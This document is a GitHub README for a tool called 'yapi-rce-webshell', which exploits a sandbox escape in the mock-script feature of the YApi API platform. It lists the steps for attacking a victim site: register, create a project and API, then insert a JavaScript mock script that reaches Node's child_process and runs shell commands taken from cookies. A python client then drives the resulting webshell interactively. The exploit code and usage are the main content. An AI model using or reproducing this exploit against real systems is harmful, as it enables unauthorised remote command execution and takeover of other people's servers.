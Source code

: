 # yapi-rce-webshell
Yapi mock script RCE another version. Webshell way.

https://github.com/YMFE/yapi/issues/2099

# funny things 

usage:

1. victim yapi website
2. register account
3. craete project and create api in it
4. create mock script like 
```js
const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
mockJson = process.mainModule.require("child_process").execSync("cd "+cookie.dir+";"+cookie.cmd).toString()
// you can also add exec function to do some async jobs like running enum scripts
```
5.  use python script to connect webshell and interactive

```bash
python3 webshell.py {mock address like: http://whereisthevictim/mock/222/test/test } -i # interactive mode
# or
python3 webshell.py {mock address like: http://whereisthevictim/mock/222/test/test} {cmd dir,you can use "."} {command location}
```
